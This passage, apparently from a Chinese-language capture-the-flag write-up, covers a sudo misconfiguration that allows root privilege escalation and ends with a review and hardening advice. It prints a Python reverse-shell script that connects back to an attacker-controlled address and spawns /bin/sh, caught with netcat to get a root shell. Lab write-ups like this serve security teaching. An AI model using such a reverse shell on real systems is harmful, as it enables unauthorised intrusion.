 
{{< image src="https://image.p1nant0m.xyz/20250617224136074.png" caption="fragile point of the script execute logic" src_s="https://image.p1nant0m.xyz/20250617224136074.png" src_l="https://image.p1nant0m.xyz/20250617224136074.png" >}}

找到一个可以写的目录（/home/svc）并在其中创建一个名为full-checkup.sh的文件，其中的内容如下（我们可以从[https://gtfobins.github.io/](https://gtfobins.github.io/ "https://gtfobins.github.io/")中获得相关的payload），最后其中的文件内容如下,

```bash
#!/usr/bin/python3
import sys,socket,os,pty;
s=socket.socket()
s.connect('PRIVATE_IP', 8080)
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
```

故技重施，我们在控制服务器上使用netcat监听8080端口接收回弹的Shell，最终获得以root用户运行的终端，

{{< image src="https://image.p1nant0m.xyz/20250617224142488.png" caption="Get shell under the root user" src_s="https://image.p1nant0m.xyz/20250617224142488.png" src_l="https://image.p1nant0m.xyz/20250617224142488.png" >}}

最终也是读取了root.txt中存储的FLAG！

{{< image src="https://image.p1nant0m.xyz/20250617224813765.gif" caption="Target Website" src_s="https://image.p1nant0m.xyz/20250617224813765.gif" src_l="https://image.p1nant0m.xyz/20250617224813765.gif" >}} 

### 📖 总结复盘

1. 我是如何获得该站点服务器上的普通用户权限的？

通过站点使用的具有漏洞的组件实现nday RCE漏洞利用。

2. 我是如何发现漏洞点的？

站点上暴露了所使用组件的版本信息，通过公开数据库可以查询到对应组件的对应版本时候存在相关的漏洞，实现打靶第一步。

3. 如何进行进一步提权的？

提权的方式可以千奇百怪、脑洞大开（但也可以遵循一定的[Checklist](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist "Checklist")来确保自己的机器是安全的）但大多数时候都是因为人员的疏忽导致的。以本靶机为例，cody用户能够执行的sudo的操作仅有一条并且原意是让其在 `/opt/scripts` 的目录中执行，但其忽略了对文件路径进行相关的限制，致使攻击者能够在任意可以进行写操作的目录中构造恶意脚本，并成功以root身份执行，最终实现提权。

4. 如何进行安全加固?

-   避免使用不安全的组件或依赖，在系统上线前可以通过各种类型的扫描工具(SAST, DAST, IAST...)在业务上线前确保没有中、高危漏洞存在
-   生产环境中部署服务的环境尽可能的精简，除服务正常运行所需的文件以外不应该存在任何其它的文件数据，更不能将高权限用户的身份凭证直接存放于生产环境之中
-   口令不可重复使用，重复使用的口令意味着当该口令泄露时所有与此相关的服务都存在失陷的风险
-   对于运维管理所必须存在的普通账户来说，需要严格限制其能够使用sudo的场景，对相关的参数进行过滤限制，必要时限制其能够登入的网络地址。

